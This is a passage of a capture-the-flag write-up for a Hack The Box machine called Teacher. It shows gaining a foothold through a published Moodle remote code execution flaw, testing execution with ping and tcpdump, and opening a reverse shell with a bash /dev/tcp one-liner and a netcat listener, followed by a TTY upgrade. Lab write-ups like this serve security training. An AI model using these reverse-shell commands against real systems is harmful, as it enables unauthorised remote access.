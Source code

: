 # Foothold
## Getting reverse shell
- Fom the exploit described by [ripstech](https://blog.ripstech.com/2018/moodle-remote-code-execution/), we can create a quiz.
- We can first check if `ping -c 1 10.10.14.12` is working or not.
```bash
 sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:35:15.237927 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 882, seq 1, length 64
09:35:15.237980 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 882, seq 1, length 64
09:35:15.412755 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 884, seq 1, length 64
09:35:15.412804 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 884, seq 1, length 64
09:35:21.773372 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 886, seq 1, length 64
09:35:21.773407 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 886, seq 1, length 64
09:35:21.978014 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 888, seq 1, length 64
09:35:21.978046 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 888, seq 1, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel

```

- We can create a reverse shell request `bash -c 'bash -i >& /dev/tcp/10.10.14.12'` to get a reverse shell.
![[Pasted image 20210418100615.png]]
```bash
nc -lnvp 9001                                                                           1 ↵ 
listening on [any] 9001 ...                                                                     
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.153] 60142                                    
bash: cannot set terminal process group (829): Inappropriate ioctl for device                   
bash: no job control in this shell                                                              
www-data@teacher:/var/www/html/moodle/question$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
<ion$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                            
www-data@teacher:/var/www/html/moodle/question$ ^Z
[1]  + 2669 suspended  nc -lnvp 9001
╭─norman@kali ~/Hack-The-Box/machines/teacher ‹main*› 
╰─$ stty raw -echo; fg                                                                    148 ↵
[1]  + 2669 continued  nc -lnvp 9001

...[Press RET twice]...

```

